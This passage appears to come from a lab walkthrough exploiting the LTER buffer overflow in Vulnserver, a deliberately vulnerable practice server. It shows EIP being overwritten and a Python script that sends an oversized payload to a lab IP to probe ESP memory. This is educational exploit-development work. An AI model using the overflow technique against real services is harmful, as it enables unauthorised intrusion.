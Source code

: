 We have successfully overwrote the ```EIP``` with our own data ```0x44444444```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-overwrite-reg.png">
</div>

So we could control EIP and redirect the code execution to the next point

## Finding bad characters

Lets fuzz our ```ESP``` memory to see our data dump on that region

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat fuzz-esp.py                
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*2005
# to overwrite EIP
payload+=b"B"*4
# padding
payload+=b"D"*(2500-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 fuzz-esp.py 
```

After fuzzing, we can see our ESP data in the memory dump after EIP

<div align="center">